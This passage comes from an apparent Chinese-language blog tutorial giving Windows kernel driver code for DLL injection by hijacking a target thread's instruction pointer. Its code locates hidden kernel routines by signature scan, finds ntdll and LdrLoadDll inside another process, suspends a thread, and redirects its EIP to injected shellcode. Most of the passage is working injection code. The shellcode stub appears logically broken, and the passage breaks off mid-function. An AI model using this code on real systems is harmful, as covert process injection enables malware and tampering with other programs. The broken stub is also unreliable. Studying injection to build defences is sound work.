 - 在目标进程的内存空间中分配一段可执行代码的内存空间，将DLL的路径和函数名等信息写入其中。
 - 将注入代码通过内核级别的系统调用或API注入到目标进程中的可执行内存空间中，同时将其返回地址替换为注入代码的执行路径。
 - 当目标进程调用注入代码所替换的函数时，注入代码会被执行，完成DLL注入的任务。

需要注意的是，RIP劫持作为一种内核级别的注入技术，具有一定的风险和安全问题。同时，操作系统和安全软件中也可能存在相应的保护措施，可以防止或检测到这种注入方式，因此需要谨慎使用。

在内核模式中实现这一过程的具体方法可分为如下步骤；

 - 1.通过`PsLookupProcessByProcessId`将进程`PID`转为`EProcess`结构
 - 2.通过`KeStackAttachProcess`附加到目标进程
 - 3.通过`GetUserModule`得到当前进程中`Ntdll.dll`模块的基址
 - 4.通过`GetModuleExport`得到`Ntdll.dll`模块内`LdrLoadDll`函数基址
 - 5.通过`ZwGetNextThread`得到当前线程句柄
 - 6.通过`PsSuspendThread`暂停当前线程运行
 - 7.此时通过`GetWow64Code`生成特定的加载代码，并放入`ZwAllocateVirtualMemory`生成的内存中
 - 8.修改当前EIP的值指向`newAddress`内存地址
 - 7.通过`PsResumeThread`恢复线程执行，让其执行我们的`ShellCode`代码
 - 8.最后调用`KeUnstackDetachProcess`脱离目标进程，并释放句柄

首先需要定义一个标准头文件，并将其命名为`lyshark.h`其定义部分如下所示，此部分内容摘录于微软官方文档，如果需要了解结构体内的含义，请去自行查阅微软官方文档；
```c
#include <ntifs.h>
#include <windef.h>
#include <intrin.h>
#include <ntimage.h>
#include <ntstrsafe.h>

// 线程结构体偏移值
#define MAXCOUNTS 0x200
#define INITIALSTACKOFFSET 0x28
#define WOW64CONTEXTOFFSET 0x1488
#define WOW64_SIZE_OF_80387_REGISTERS 80
#define WOW64_MAXIMUM_SUPPORTED_EXTENSION 512

// 导出函数
NTKERNELAPI PPEB NTAPI PsGetProcessPeb(IN PEPROCESS Process);

// 定义自定义函数指针
typedef PVOID(NTAPI* PPsGetThreadTeb)(IN PETHREAD Thread);
typedef PVOID(NTAPI* PPsGetProcessWow64Process)(_In_ PEPROCESS Process);
typedef NTSTATUS(NTAPI* PPsResumeThread)(PETHREAD Thread, OUT PULONG PreviousCount);
typedef NTSTATUS(NTAPI* PPsSuspendThread)(IN PETHREAD Thread, OUT PULONG PreviousSuspendCount OPTIONAL);
typedef NTSTATUS(NTAPI* PZwGetNextThread)(_In_ HANDLE ProcessHandle, _In_ HANDLE ThreadHandle, _In_ ACCESS_MASK DesiredAccess, _In_ ULONG HandleAttributes, _In_ ULONG Flags, _Out_ PHANDLE NewThreadHandle);

// 存放全局函数指针的变量
PPsGetThreadTeb g_PsGetThreadTeb = NULL;
PPsResumeThread g_PsResumeThread = NULL;
PPsSuspendThread g_PsSuspendThread = NULL;
PZwGetNextThread g_ZwGetNextThread = NULL;
PPsGetProcessWow64Process g_PsGetProcessWow64Process = NULL;

// 定义微软结构体
typedef struct _PEB_LDR_DATA32
{
    ULONG Length;
    UCHAR Initialized;
    ULONG SsHandle;
    LIST_ENTRY32 InLoadOrderModuleList;
    LIST_ENTRY32 InMemoryOrderModuleList;
    LIST_ENTRY32 InInitializationOrderModuleList;
} PEB_LDR_DATA32, *PPEB_LDR_DATA32;

typedef struct _PEB_LDR_DATA
{
    ULONG Length;
    UCHAR Initialized;
    PVOID SsHandle;
    LIST_ENTRY InLoadOrderModuleList;
    LIST_ENTRY InMemoryOrderModuleList;
    LIST_ENTRY InInitializationOrderModuleList;
} PEB_LDR_DATA, *PPEB_LDR_DATA;

typedef struct _LDR_DATA_TABLE_ENTRY32
{
    LIST_ENTRY32 InLoadOrderLinks;
    LIST_ENTRY32 InMemoryOrderLinks;
    LIST_ENTRY32 InInitializationOrderLinks;
    ULONG DllBase;
    ULONG EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING32 FullDllName;
    UNICODE_STRING32 BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    LIST_ENTRY32 HashLinks;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY32, *PLDR_DATA_TABLE_ENTRY32;

typedef struct _LDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderLinks;
    LIST_ENTRY InMemoryOrderLinks;
    LIST_ENTRY InInitializationOrderLinks;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT TlsIndex;
    LIST_ENTRY HashLinks;
    ULONG TimeDateStamp;
} LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

typedef struct _PEB32
{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    UCHAR BitField;
    ULONG Mutant;
    ULONG ImageBaseAddress;
    ULONG Ldr;
    ULONG ProcessParameters;
    ULONG SubSystemData;
    ULONG ProcessHeap;
    ULONG FastPebLock;
    ULONG AtlThunkSListPtr;
    ULONG IFEOKey;
    ULONG CrossProcessFlags;
    ULONG UserSharedInfoPtr;
    ULONG SystemReserved;
    ULONG AtlThunkSListPtr32;
    ULONG ApiSetMap;
} PEB32, *PPEB32;

typedef struct _PEB
{
    UCHAR InheritedAddressSpace;
    UCHAR ReadImageFileExecOptions;
    UCHAR BeingDebugged;
    UCHAR BitField;
    PVOID Mutant;
    PVOID ImageBaseAddress;
    PPEB_LDR_DATA Ldr;
    PVOID ProcessParameters;
    PVOID SubSystemData;
    PVOID ProcessHeap;
    PVOID FastPebLock;
    PVOID AtlThunkSListPtr;
    PVOID IFEOKey;
    PVOID CrossProcessFlags;
    PVOID KernelCallbackTable;
    ULONG SystemReserved;
    ULONG AtlThunkSListPtr32;
    PVOID ApiSetMap;
} PEB, *PPEB;

typedef struct _KLDR_DATA_TABLE_ENTRY
{
    LIST_ENTRY InLoadOrderLinks;
    PVOID ExceptionTable;
    ULONG ExceptionTableSize;
    PVOID GpValue;
    ULONG UnKnow;
    PVOID DllBase;
    PVOID EntryPoint;
    ULONG SizeOfImage;
    UNICODE_STRING FullDllName;
    UNICODE_STRING BaseDllName;
    ULONG Flags;
    USHORT LoadCount;
    USHORT __Unused5;
    PVOID SectionPointer;
    ULONG CheckSum;
    PVOID LoadedImports;
    PVOID PatchInformation;
} KLDR_DATA_TABLE_ENTRY, *PKLDR_DATA_TABLE_ENTRY;

typedef struct _WOW64_FLOATING_SAVE_AREA
{
    DWORD ControlWord;
    DWORD StatusWord;
    DWORD TagWord;
    DWORD ErrorOffset;
    DWORD ErrorSelector;
    DWORD DataOffset;
    DWORD DataSelector;
    BYTE RegisterArea[WOW64_SIZE_OF_80387_REGISTERS];
    DWORD Cr0NpxState;
} WOW64_FLOATING_SAVE_AREA;

typedef struct _WOW64_CONTEXT
{
    DWORD padding;
    DWORD ContextFlags;
    DWORD Dr0;
    DWORD Dr1;
    DWORD Dr2;
    DWORD Dr3;
    DWORD Dr6;
    DWORD Dr7;
    WOW64_FLOATING_SAVE_AREA FloatSave;
    DWORD SegGs;
    DWORD SegFs;
    DWORD SegEs;
    DWORD SegDs;
    DWORD Edi;
    DWORD Esi;
    DWORD Ebx;
    DWORD Edx;
    DWORD Ecx;
    DWORD Eax;
    DWORD Ebp;
    DWORD Eip;
    DWORD SegCs;
    DWORD EFlags;
    DWORD Esp;
    DWORD SegSs;
    BYTE ExtendedRegisters[WOW64_MAXIMUM_SUPPORTED_EXTENSION];
} WOW64_CONTEXT, *PWOW64_CONTEXT;

// 自定义注入结构体
typedef struct _INJECT_BUFFER
{
    UCHAR Code[0x200];
    UNICODE_STRING Path;
    UNICODE_STRING32 Path32;
    wchar_t Buffer[488];
    PVOID ModuleHandle;
    ULONG Complete;
    NTSTATUS Status;
    ULONG64 orgRipAddress;
    ULONG64 orgRip;
} INJECT_BUFFER, *PINJECT_BUFFER;
```

**1.SearchOPcode 特征码定位基址**

在注入之前我们需要通过`SearchOPcode()`函数动态的寻找几个关键函数的基址，以`PsSuspendThread`函数的寻找为例，通过`WinDBG`我们可以定位到该函数，该函数模块在`ntoskrnl.exe`中，且无法直接通过`MmGetSystemRoutineAddress`拿到，为了能通过代码拿到该函数的入口地址，我提取`fffff804204de668`到`fffff804204de670`位置处的特征码，由于`fffff804204de668`距离`PsSuspendThread`函数开头只有`24`字节，所以直接通过`-24`即可得到。



通过调用`SearchOPcode()`并传入机器码即可直接拿到`PsSuspendThread`的入口地址，根据上述方式我们需要分别得到`PsSuspendThread`，`PsResumeThread`这几个函数的内存基址，这些函数的具体作用如下所示；

 - PsSuspendThread() 用于暂停或者挂起线程
 - PsResumeThread() 用于恢复线程

其次还需要通过`MmGetSystemRoutineAddress`函数动态的得到`ZwGetNextThread`，`PsGetThreadTeb`，`PsGetProcessWow64Process`这几个函数的基址，这些函数的具体作用如下所示；

 - ZwGetNextThread() 用于获取下一个活动线程
 - PsGetThreadTeb() 用于获取线程TEB结构
 - PsGetProcessWow64Process() 判断当前进程是否为32位

完整代码如下所示，运行这段代码将定位到我们所需的所有内核函数的基址信息；
```c
#include "lyshark.h"

// 内核特征码定位函数封装
// 参数1：传入驱动句柄
// 参数2：传入驱动模块名
// 参数3：传入节表名称
// 参数4：传入待搜索机器码字节数组
// 参数5：传入机器码长度
// 参数6：基址修正字节数
PVOID SearchOPcode(PDRIVER_OBJECT pObj, PWCHAR DriverName, PCHAR sectionName, PUCHAR opCode, DWORD len, DWORD offset)
{
    PVOID dllBase = NULL;
    UNICODE_STRING uniDriverName;
    PKLDR_DATA_TABLE_ENTRY firstentry;

    // 获取驱动入口
    PKLDR_DATA_TABLE_ENTRY entry = (PKLDR_DATA_TABLE_ENTRY)pObj->DriverSection;

    firstentry = entry;
    RtlInitUnicodeString(&uniDriverName, DriverName);

    // 开始遍历
    while ((PKLDR_DATA_TABLE_ENTRY)entry->InLoadOrderLinks.Flink != firstentry)
    {
        if (entry->FullDllName.Buffer != 0 && entry->BaseDllName.Buffer != 0)
        {
            // 如果找到了所需模块则将其基地址返回
            if (RtlCompareUnicodeString(&uniDriverName, &(entry->BaseDllName), FALSE) == 0)
            {
                dllBase = entry->DllBase;
                break;
            }
        }
        entry = (PKLDR_DATA_TABLE_ENTRY)entry->InLoadOrderLinks.Flink;
    }

    if (dllBase)
    {
        __try
        {
            // 载入模块基地址
            PIMAGE_DOS_HEADER ImageDosHeader = (PIMAGE_DOS_HEADER)dllBase;
            if (ImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
            {
                return NULL;
            }

            // 得到模块NT头以及Section节头
            PIMAGE_NT_HEADERS64 pImageNtHeaders64 = (PIMAGE_NT_HEADERS64)((PUCHAR)dllBase + ImageDosHeader->e_lfanew);
            PIMAGE_SECTION_HEADER pSectionHeader = (PIMAGE_SECTION_HEADER)((PUCHAR)pImageNtHeaders64 + sizeof(pImageNtHeaders64->Signature) + sizeof(pImageNtHeaders64->FileHeader) + pImageNtHeaders64->FileHeader.SizeOfOptionalHeader);

            PUCHAR endAddress = 0;
            PUCHAR starAddress = 0;

            // 寻找符合条件的节
            for (int i = 0; i < pImageNtHeaders64->FileHeader.NumberOfSections; i++)
            {
                if (memcmp(sectionName, pSectionHeader->Name, strlen(sectionName) + 1) == 0)
                {
                    starAddress = pSectionHeader->VirtualAddress + (PUCHAR)dllBase;
                    endAddress = pSectionHeader->VirtualAddress + (PUCHAR)dllBase + pSectionHeader->SizeOfRawData;
                    break;
                }
                pSectionHeader++;
            }

            if (endAddress && starAddress)
            {
                // 找到会开始寻找特征
                for (; starAddress < endAddress - len - 1; starAddress++)
                {
                    // 验证访问权限
                    if (MmIsAddressValid(starAddress))
                    {
                        DWORD i = 0;
                        for (; i < len; i++)
                        {
                            // 判断是否为通配符'*'
                            if (opCode[i] == 0x2a)
                            {
                                continue;
                            }

                            // 找到了一个字节则跳出
                            if (opCode[i] != starAddress[i])
                            {
                                break;
                            }

                        }
                        // 找到次数完全匹配则返回地址
                        if (i == len)
                        {
                            return starAddress + offset;
                        }
                    }
                }
            }
        }
        __except (EXCEPTION_EXECUTE_HANDLER) {}
    }

    return NULL;
}

NTSTATUS UnDriver(PDRIVER_OBJECT driver)
{
    return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    /*
    0: kd> uf PsSuspendThread
    nt!PsSuspendThread:
    fffff804`204de650 4889542410      mov     qword ptr [rsp+10h],rdx
    fffff804`204de655 48894c2408      mov     qword ptr [rsp+8],rcx
    fffff804`204de65a 53              push    rbx
    fffff804`204de65b 56              push    rsi
    fffff804`204de65c 57              push    rdi
    fffff804`204de65d 4156            push    r14
    fffff804`204de65f 4157            push    r15
    fffff804`204de661 4883ec30        sub     rsp,30h
    fffff804`204de665 4c8bf2          mov     r14,rdx
    fffff804`204de668 488bf9          mov     rdi,rcx
    fffff804`204de66b 8364242000      and     dword ptr [rsp+20h],0
    fffff804`204de670 65488b342588010000 mov   rsi,qword ptr gs:[188h]
    fffff804`204de679 4889742470      mov     qword ptr [rsp+70h],rsi
    fffff804`204de67e 66ff8ee4010000  dec     word ptr [rsi+1E4h]
    fffff804`204de685 4c8db9c8060000  lea     r15,[rcx+6C8h]
    fffff804`204de68c 4c897c2478      mov     qword ptr [rsp+78h],r15
    fffff804`204de691 498bcf          mov     rcx,r15
    fffff804`204de694 e8c7ff95ff      call    nt!ExAcquireRundownProtection (fffff804`1fe3e660)
    fffff804`204de699 84c0            test    al,al
    fffff804`204de69b 0f84495a1100    je      nt!PsSuspendThread+0x115a9a (fffff804`205f40ea)  Branch
    */
    UCHAR SuspendOpCode[] = { 0x48, 0x8b, 0xf9, 0x83, 0x64, 0x24, 0x20, 0x00, 0x65, 0x48, 0x8b, 0x34, 0x25, 0x88, 0x01 };

    /*
    0: kd> uf PsResumeThread
    nt!PsResumeThread:
    fffff804`204c7ab0 48895c2408      mov     qword ptr [rsp+8],rbx
    fffff804`204c7ab5 4889742410      mov     qword ptr [rsp+10h],rsi
    fffff804`204c7aba 57              push    rdi
    fffff804`204c7abb 4883ec20        sub     rsp,20h
    fffff804`204c7abf 488bda          mov     rbx,rdx
    fffff804`204c7ac2 488bf9          mov     rdi,rcx
    fffff804`204c7ac5 e8ee4fa5ff      call    nt!KeResumeThread (fffff804`1ff1cab8)
    fffff804`204c7aca 65488b142588010000 mov   rdx,qword ptr gs:[188h]
    fffff804`204c7ad3 8bf0            mov     esi,eax
    fffff804`204c7ad5 83f801          cmp     eax,1
    fffff804`204c7ad8 7521            jne     nt!PsResumeThread+0x4b (fffff804`204c7afb)  Branch
    */
    UCHAR ResumeOpCode[] = { 0x48, 0x8b, 0xf9, 0xe8, 0xee, 0x4f, 0xa5, 0xff, 0x65, 0x48, 0x8b, 0x14, 0x25, 0x88 };

    // 特征码检索PsSuspendThread函数基址
    g_PsSuspendThread = (PPsSuspendThread)SearchOPcode(Driver, L"ntoskrnl.exe", "PAGE", SuspendOpCode, sizeof(SuspendOpCode), -24);
    DbgPrint("PsSuspendThread = %p \n", g_PsSuspendThread);

    // 特征码检索PsResumeThread基址
    g_PsResumeThread = (PPsResumeThread)SearchOPcode(Driver, L"ntoskrnl.exe", "PAGE", ResumeOpCode, sizeof(ResumeOpCode), -18);
    DbgPrint("PsResumeThread = %p \n", g_PsResumeThread);

    // 动态获取内存中的ZwGetNextThread基址
    UNICODE_STRING ZwGetNextThreadString = RTL_CONSTANT_STRING(L"ZwGetNextThread");
    g_ZwGetNextThread = (PZwGetNextThread)MmGetSystemRoutineAddress(&ZwGetNextThreadString);
    DbgPrint("ZwGetNextThread = %p \n", g_ZwGetNextThread);

    // 动态获取内存中的PsGetThreadTeb基址
    UNICODE_STRING PsGetThreadTebString = RTL_CONSTANT_STRING(L"PsGetThreadTeb");
    g_PsGetThreadTeb = (PPsGetThreadTeb)MmGetSystemRoutineAddress(&PsGetThreadTebString);
    DbgPrint("PsGetThreadTeb = %p \n", g_PsGetThreadTeb);

    // 动态获取内存中的PsGetProcessWow64Process基址
    UNICODE_STRING PsGetProcessWow64ProcessString = RTL_CONSTANT_STRING(L"PsGetProcessWow64Process");
    g_PsGetProcessWow64Process = (PPsGetProcessWow64Process)MmGetSystemRoutineAddress(&PsGetProcessWow64ProcessString);
    DbgPrint("PsGetProcessWow64Process = %p \n", g_PsGetProcessWow64Process);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，则会输出我们所需函数的入口地址，输出效果图如下所示；



**2.GetUserModule 获取模块基址**

此函数的功能是获取到当前内核下特定模块的基址，函数接收三个参数，在入口`DriverEntry`位置通过`KeStackAttachProcess`附加到进程空间内，如果是32位进程则通过`PsGetProcessWow64Process`得到进程的PEB结构，如果是64位则通过`PsGetProcessPeb`得到PEB进程环境块的目的是为了解析`PLIST_ENTRY32`链表，通过`RtlCompareUnicodeString`对比模块是否符合要求，如果符合则在此链表中取出`LdrDataTableEntry32->DllBase`模块基址并返回给调用者，其完整代码片段如下所示；

 - 1.通过`KeStackAttachProcess`附加到用户层进程空间内
 - 2.通过各种函数获取到进程`PEB`进程环境块
 - 3.遍历`PLIST_ENTRY32`链表，判断`ModuleName`是否所需
 - 4.获取`LdrDataTableEntry32->DllBase`中的模块基址

```c
#include "lyshark.h"

// 得到当前用户进程下的模块基址
// 参数1：传入用户EProcess结构
// 参数2：传入模块名
// 参数3：是否32位
PVOID GetUserModule(IN PEPROCESS EProcess, IN PUNICODE_STRING ModuleName, IN BOOLEAN IsWow64)
{
    if (EProcess == NULL)
        return NULL;
    __try
    {
        // 执行32位
        if (IsWow64)
        {
            // 获取32位下的PEB进程环境块
            PPEB32 Peb32 = (PPEB32)g_PsGetProcessWow64Process(EProcess);
            if (Peb32 == NULL)
                return NULL;

            if (!Peb32->Ldr)
                return NULL;

            // 循环遍历链表 寻找模块
            for (PLIST_ENTRY32 ListEntry = (PLIST_ENTRY32)((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList.Flink;
                ListEntry != &((PPEB_LDR_DATA32)Peb32->Ldr)->InLoadOrderModuleList;
                ListEntry = (PLIST_ENTRY32)ListEntry->Flink)
            {
                UNICODE_STRING UnicodeString;
                PLDR_DATA_TABLE_ENTRY32 LdrDataTableEntry32 = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY32, InLoadOrderLinks);

                // 初始化模块名
                RtlUnicodeStringInit(&UnicodeString, (PWCH)LdrDataTableEntry32->BaseDllName.Buffer);

                // 对比模块名是否符合
                if (RtlCompareUnicodeString(&UnicodeString, ModuleName, TRUE) == 0)
                    return (PVOID)LdrDataTableEntry32->DllBase;
            }
        }
        // 执行64位
        else
        {
            // 得到64位PEB进程环境块
            PPEB Peb = PsGetProcessPeb(EProcess);
            if (!Peb)
                return NULL;

            if (!Peb->Ldr)
                return NULL;

            // 开始遍历模块
            for (PLIST_ENTRY ListEntry = Peb->Ldr->InLoadOrderModuleList.Flink;
                ListEntry != &Peb->Ldr->InLoadOrderModuleList;
                ListEntry = ListEntry->Flink)
            {
                // 得到表头
                PLDR_DATA_TABLE_ENTRY LdrDataTableEntry = CONTAINING_RECORD(ListEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

                // 判断是否是所需要的模块
                if (RtlCompareUnicodeString(&LdrDataTableEntry->BaseDllName, ModuleName, TRUE) == 0)
                    return LdrDataTableEntry->DllBase;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER){}

    return NULL;
}

NTSTATUS UnDriver(PDRIVER_OBJECT driver)
{
    return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    // 动态获取内存中的PsGetProcessWow64Process基址
    UNICODE_STRING PsGetProcessWow64ProcessString = RTL_CONSTANT_STRING(L"PsGetProcessWow64Process");
    g_PsGetProcessWow64Process = (PPsGetProcessWow64Process)MmGetSystemRoutineAddress(&PsGetProcessWow64ProcessString);
    DbgPrint("PsGetProcessWow64Process = %p \n", g_PsGetProcessWow64Process);

    PEPROCESS pEprocess = NULL;
    DWORD pid = 6084;

    // 根据PID得到进程Eprocess结构
    if (NT_SUCCESS(PsLookupProcessByProcessId((HANDLE)pid, &pEprocess)))
    {
        // 初始化结构
        UNICODE_STRING ntdllString = RTL_CONSTANT_STRING(L"Ntdll.dll");

        KAPC_STATE kApc = { 0 };

        // 附加到进程内
        KeStackAttachProcess(pEprocess, &kApc);

        // 获取NTDLL的模块基地址
        PVOID ntdll_address = GetUserModule(pEprocess, &ntdllString, TRUE);
        if (ntdll_address != NULL)
        {
            DbgPrint("[*] Ntdll Addr = %p \n", ntdll_address);
        }

        // 取消附加
        KeUnstackDetachProcess(&kApc);

        // 递减计数
        ObDereferenceObject(pEprocess);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上这段程序，则会取出进程ID为`6084`中`Ntdll.dll`的模块基址，输出效果图如下所示；



**3.GetModuleExport 取导出表函数基址**

此函数的功能是获取到当前内核下特定模块中的特定函数（内存中）基址，函数接收两个参数，在入口`DriverEntry`位置通过`KeStackAttachProcess`附加到进程空间内，通过解析`IMAGE_DIRECTORY_ENTRY_EXPORT`导出表取出导出函数名，此处需要注意如果函数名指针小于等于`0xFFFF`则说明是序号导出，如果大于`0xFFFF`则说明是名字导出，判断名字是否一致，如果一致则返回当前内存的`ModuleBase`模块基址加上`pAddressOfFuncs[OrdIndex]`相对偏移，从而获取到内存中的绝对地址，完整代码片段如下所示；
```c
#include "lyshark.h"

// 根据函数名得到导出表地址
// 参数1：传入模块入口地址
// 参数2：传入导出函数名
PVOID GetModuleExport(IN PVOID ModuleBase, IN PCCHAR FunctionName)
{
    PIMAGE_DOS_HEADER ImageDosHeader = (PIMAGE_DOS_HEADER)ModuleBase;
    PIMAGE_NT_HEADERS32 ImageNtHeaders32 = NULL;
    PIMAGE_NT_HEADERS64 ImageNtHeaders64 = NULL;
    PIMAGE_EXPORT_DIRECTORY ImageExportDirectory = NULL;
    ULONG ExportDirectorySize = 0;
    ULONG_PTR FunctionAddress = 0;

    if (ModuleBase == NULL)
        return NULL;

    __try
    {
        // 判断是否是DOS头
        if (ImageDosHeader->e_magic != IMAGE_DOS_SIGNATURE)
        {
            return NULL;
        }

        // 获取PE结构节NT头
        ImageNtHeaders32 = (PIMAGE_NT_HEADERS32)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);
        ImageNtHeaders64 = (PIMAGE_NT_HEADERS64)((PUCHAR)ModuleBase + ImageDosHeader->e_lfanew);

        // 判断是否是64位
        if (ImageNtHeaders64->OptionalHeader.Magic == IMAGE_NT_OPTIONAL_HDR64_MAGIC)
        {
            // 如果是64位则执行如下
            ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
            ExportDirectorySize = ImageNtHeaders64->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
        }
        else
        {
            // 如果32位则执行如下
            ImageExportDirectory = (PIMAGE_EXPORT_DIRECTORY)(ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress + (ULONG_PTR)ModuleBase);
            ExportDirectorySize = ImageNtHeaders32->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size;
        }

        // 取出导出表Index，名字，函地址等
        PUSHORT pAddressOfOrds = (PUSHORT)(ImageExportDirectory->AddressOfNameOrdinals + (ULONG_PTR)ModuleBase);
        PULONG  pAddressOfNames = (PULONG)(ImageExportDirectory->AddressOfNames + (ULONG_PTR)ModuleBase);
        PULONG  pAddressOfFuncs = (PULONG)(ImageExportDirectory->AddressOfFunctions + (ULONG_PTR)ModuleBase);

        // 循环导出表
        for (ULONG i = 0; i < ImageExportDirectory->NumberOfFunctions; ++i)
        {
            USHORT OrdIndex = 0xFFFF;
            PCHAR  pName = NULL;

            // 说明是序号导出
            if ((ULONG_PTR)FunctionName <= 0xFFFF)
            {
                // 得到函数序号
                OrdIndex = (USHORT)i;
            }
            // 说明是名字导出
            else if ((ULONG_PTR)FunctionName > 0xFFFF && i < ImageExportDirectory->NumberOfNames)
            {
                // 得到函数名
                pName = (PCHAR)(pAddressOfNames[i] + (ULONG_PTR)ModuleBase);
                OrdIndex = pAddressOfOrds[i];
            }

            else
                return NULL;

            // 判断函数名是否符合
            if (((ULONG_PTR)FunctionName <= 0xFFFF && (USHORT)((ULONG_PTR)FunctionName) == OrdIndex + ImageExportDirectory->Base) ||
                ((ULONG_PTR)FunctionName > 0xFFFF && strcmp(pName, FunctionName) == 0))
            {
                // 得到完整地址
                FunctionAddress = pAddressOfFuncs[OrdIndex] + (ULONG_PTR)ModuleBase;
                break;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER){}

    return (PVOID)FunctionAddress;
}

NTSTATUS UnDriver(PDRIVER_OBJECT driver)
{
    return STATUS_SUCCESS;
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("Hello LyShark.com \n");

    PEPROCESS pEprocess = NULL;
    DWORD pid = 6084;

    // 根据PID得到进程Eprocess结构
    if (NT_SUCCESS(PsLookupProcessByProcessId((HANDLE)pid, &pEprocess)))
    {
        KAPC_STATE kApc = { 0 };

        // ntdll.dll模块基址
        PVOID ntdll_address = (PVOID)0x0000000077540000;

        // 附加到进程内
        KeStackAttachProcess(pEprocess, &kApc);

        // 取模块中LdrLoadDll函数基址
        PVOID LdrLoadDllAddress = GetModuleExport(ntdll_address, "LdrLoadDll");

        DbgPrint("[*] LdrLoadDllAddress = %p \n", LdrLoadDllAddress);

        // 取消附加
        KeUnstackDetachProcess(&kApc);

        // 递减计数
        ObDereferenceObject(pEprocess);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译并运行如上代码片段，即可获取到进程`6084`号，`ntdll.dll`模块中`LdrLoadDll`的内存地址，其输出效果图如下所示；



**4.GetCurrentContext 获取当前线程上下文**

此函数的功能是获取附加进程内当前线程的上下文地址，函数接收一个参数，内部通过`PsLookupProcessByProcessId`得到进程`EProcess`结构体，通过`KeStackAttachProcess`附加到进程内，调用`g_ZwGetNextThread`获取当当前线程上下文，函数`ObReferenceObjectByHandle`用于将`Handle`转换为线程对象，之后再通过`g_PsSuspendThread`暂停线程后，即可通过各类函数获取到该线程的绝大部分信息，最终在调用结束时记得调用`g_PsResumeThread`恢复线程的运行，并`KeUnstackDetachProcess`脱离附加，解析上下文环境完整代码如下所示；

```c
#include "lyshark.h"

// ShellCode 注入线程函数
NTSTATUS GetCurrentContext(ULONG pid, PVOID* allcateAddress)
{
    PEPROCESS pEprocess = NULL;

    // 根据PID得到进程Eprocess结构
    if (NT_SUCCESS(PsLookupProcessByProcessId((HANDLE)pid, &pEprocess)))
    {
        KAPC_STATE kApc = { 0 };

        // 附加到进程内
        KeStackAttachProcess(pEprocess, &kApc);

        HANDLE threadHandle = NULL;

        // 得到当前正在运行的线程上下文
        if (NT_SUCCESS(g_ZwGetNextThread((HANDLE)-1, (HANDLE)0, 0x1FFFFF, 0x240, 0, &threadHandle)))
        {
            PVOID threadObj = NULL;

            // 在对象句柄上提供访问验证，如果可以授予访问权限，则返回指向对象的正文的相应指针。
            NTSTATUS state = ObReferenceObjectByHandle(threadHandle, 0x1FFFFF, *PsThreadType, KernelMode, &threadObj, NULL);
            if (NT_SUCCESS(state))
            {
                // 暂停线程
                g_PsSuspendThread(threadObj, NULL);

                __try
                {
                    // 得到TEB
                    PVOID pTeb = g_PsGetThreadTeb(threadObj);
                    if (pTeb)
                    {
                        DbgPrint("[+] 线程环境块TEB = %p \n", pTeb);

                        // 得到当前线程上下文
                        /* WOW64CONTEXTOFFSET = TlsSlots + 8
                            0: kd> dt _TEB
                            nt!_TEB
                            + 0x000 NtTib            : _NT_TIB
                            + 0x1258 StaticUnicodeString : _UNICODE_STRING
                            + 0x1268 StaticUnicodeBuffer : [261] Wchar
                            + 0x1472 Padding3 : [6] UChar
                            + 0x1478 DeallocationStack : Ptr64 Void
                            + 0x1480 TlsSlots : [64] Ptr64 Void
                            + 0x1680 TlsLinks : _LIST_ENTRY
                            + 0x1690 Vdm : Ptr64 Void
                            + 0x1698 ReservedForNtRpc : Ptr64 Void
                            + 0x16a0 DbgSsReserved : [2] Ptr64 Void
                        */

                        PWOW64_CONTEXT  pCurrentContext = (PWOW64_CONTEXT)(*(ULONG64*)((ULONG64)pTeb + WOW64CONTEXTOFFSET));
                        DbgPrint("[-] 当前上下文EIP = %p \n", pCurrentContext->Eip);

                        // 检查上下文是否可读
                        ProbeForRead((PVOID)pCurrentContext, sizeof(pCurrentContext), sizeof(CHAR));

                        UCHAR Code[] = {
                            0xb8, 0x0, 0x0, 0x0, 0x0,        // mov eax, orgEip
                            0x58,                            // pop eax
                            0xc3                             // ret
                        };

                        // 将ShellCode拷贝到InjectBuffer中等待处理
                        RtlCopyMemory(allcateAddress, Code, sizeof(Code));
                        DbgPrint("[*] 拷贝 [%p] 内存 \n", allcateAddress);;

                        // 修改代码模板，将指定位置替换为我们自己的代码
                        *(ULONG*)((PUCHAR)allcateAddress + 1) = pCurrentContext->Eip;
                        DbgPrint("[*] 替换 [ %p ] 跳转地址 \n", pCurrentContext->Eip);

                        // 执行线程
                        pCurrentContext->Eip = (ULONG)(ULONG64)(allcateAddress);
